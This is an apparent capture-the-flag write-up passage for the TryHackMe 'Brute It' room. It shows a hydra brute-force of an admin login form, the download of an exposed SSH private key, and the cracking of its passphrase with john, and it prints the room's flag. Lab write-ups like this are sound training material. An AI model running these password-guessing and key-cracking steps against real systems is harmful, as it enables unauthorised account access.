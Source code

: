 `/admin`

[view-source:http://10.10.16.131/admin/](view-source:http://10.10.16.131/admin/)

```html
<!-- Hey john, if you do not remember, the username is admin -->
```

```
kali@kali:~/CTFs/tryhackme/Brute It$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.16.131 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -f
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-14 20:55:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.16.131:80/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid
[80][http-post-form] host: 10.10.16.131   login: admin   password: xavier
[STATUS] attack finished for 10.10.16.131 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-14 20:56:09
```

```

Hello john, finish the development of the site, here's your RSA private key.


THM{brut3_f0rce_is_e4sy}
```

```
kali@kali:~/CTFs/tryhackme/Brute It$ wget http://10.10.16.131/admin/panel/id_rsa
--2020-11-14 20:56:51--  http://10.10.16.131/admin/panel/id_rsa
Connecting to 10.10.16.131:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1766 (1.7K)
Saving to: ‘id_rsa’

id_rsa                                           100%[=======================================================================================================>]   1.72K  --.-KB/s    in 0s      

2020-11-14 20:56:51 (162 MB/s) - ‘id_rsa’ saved [1766/1766]

kali@kali:~/CTFs/tryhackme/Brute It$ chmod 600 id_rsa 
kali@kali:~/CTFs/tryhackme/Brute It$ ssh -i id_rsa john@10.10.16.131
The authenticity of host '10.10.16.131 (10.10.16.131)' can't be established.
ECDSA key fingerprint is SHA256:6/bVnMDQ46C+aRgroR5KUwqKM6J9jAfSYFMQIOKckug.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.16.131' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 

kali@kali:~/CTFs/tryhackme/Brute It$ /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
kali@kali:~/CTFs/tryhackme/Brute It$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:06 DONE (2020-11-14 21:07) 0.1466g/s 2102Kp/s 2102Kc/s 2102KC/sa6_123..*7¡Vamos!
```